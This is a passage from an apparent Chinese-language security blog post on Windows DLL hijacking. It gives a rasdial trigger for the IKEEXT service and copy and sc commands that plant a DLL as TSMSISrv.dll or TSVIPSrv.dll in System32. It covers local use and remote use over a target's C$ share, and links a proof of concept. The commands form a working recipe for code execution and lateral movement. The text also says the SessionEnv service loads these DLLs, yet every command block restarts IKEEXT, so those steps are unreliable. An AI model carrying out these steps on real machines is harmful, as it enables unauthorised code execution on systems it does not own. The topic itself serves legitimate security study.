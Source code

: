 命令行执行：

```
rasdial IKEEXT test test /PHONEBOOK:rasphone.pbk
```

**注：**

这个漏洞很古老，早在2012年10月9日被公开

https://www.immuniweb.com/advisory/HTB23108

## 0x04 TSMSISrv.dll和TSVIPSrv.dll的利用
---

### 1、原文中的用法

SessionEnv(Remote Desktop Configuration)服务在启动时会加载`C:\Windows\System32\TSMSISrv.dll`和`C:\Windows\System32\TSVIPSrv.dll`，但Windows系统默认配置下这两个dll不存在，如果我们将自己的dll放在这个位置，在服务启动时就能加载该dll

POC：

https://github.com/djhohnstein/TSMSISrv_poc

测试系统： Win7 x64

POC添加了导出函数`StartComponent`、`StopComponent`、`OnSessionChange`和`Refresh`

我的测试环境下dll不需要指定导出函数，所以可以直接使用之前我的测试dll：

https://github.com/3gstudent/test/raw/master/calc_x64.dll

本地执行的用法：
(需要管理员权限)

```
copy calc_x64.dll C:\Windows\System32\TSMSISrv.dll
sc query IKEEXT
sc stop IKEEXT
sc start IKEEXT
```

或者

```
copy calc_x64.dll C:\Windows\System32\TSVIPSrv.dll
sc query IKEEXT
sc stop IKEEXT
sc start IKEEXT
```

远程执行的用法：

```
copy calc_x64.dll \\TARGET\C$\Windows\System32\TSMSISrv.dll
sc \\TARGET query IKEEXT
sc \\TARGET stop IKEEXT
sc \\TARGET start IKEEXT
```
